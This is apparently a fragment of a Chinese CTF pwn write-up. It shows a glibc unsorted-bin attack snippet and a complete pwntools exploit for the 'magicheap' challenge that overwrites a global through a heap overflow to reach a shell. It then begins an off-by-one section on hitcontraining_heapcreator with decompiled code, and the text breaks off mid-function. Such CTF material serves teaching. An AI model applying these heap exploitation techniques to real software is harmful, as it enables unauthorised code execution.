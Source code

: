 ```c
unsorted_chunks(av)->bk = bck = victim->bk = magic - 0x10;
bck->fd  = *(magic - 0x10 + 0x10) = unsorted_chunks(av);

```

exp

```python
from pwn import*
context.log_level='debug'
r=process('./magicheap')
#r=remote('node4.buuoj.cn','29824')
def add(size,content):
	r.sendlineafter('Your choice :','1')
	r.sendlineafter('Size of Heap : ',str(size))
	r.sendlineafter('Content of heap:',content)

def edit(idx,size,content):
	r.sendlineafter('Your choice :','2')
	r.sendlineafter('Index :',str(idx))
	r.sendafter('Size of Heap : ',str(size))
	r.sendafter('Content of heap : ',content)

def dele(idx):
	r.sendlineafter('Your choice :','3')
	r.sendlineafter('Index :',str(idx))


magic=0x006020A0
add(0x30,'1233')
add(0x80,'12313')
add(0x10,'123')
dele(1)
payload='a'*0x30+p64(0)+p64(0x91)+p64(magic-0x10)+p64(magic-0x10)
edit(0,0x50,payload)
gdb.attach(r)
add(0x80,'1')
r.sendlineafter(':','4869')
r.interactive()
```



## 2.off-by-one  hitcontraining_heapcreator

很好的一个菜单题来学习off by one

main

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char buf[8]; // [rsp+0h] [rbp-10h] BYREF
  unsigned __int64 v5; // [rsp+8h] [rbp-8h]

  v5 = __readfsqword(0x28u);
  setvbuf(_bss_start, 0LL, 2, 0LL);
  setvbuf(stdin, 0LL, 2, 0LL);
  while ( 1 )
  {
    menu();
    read(0, buf, 4uLL);
    switch ( atoi(buf) )
    {
      case 1:
        create_heap();
```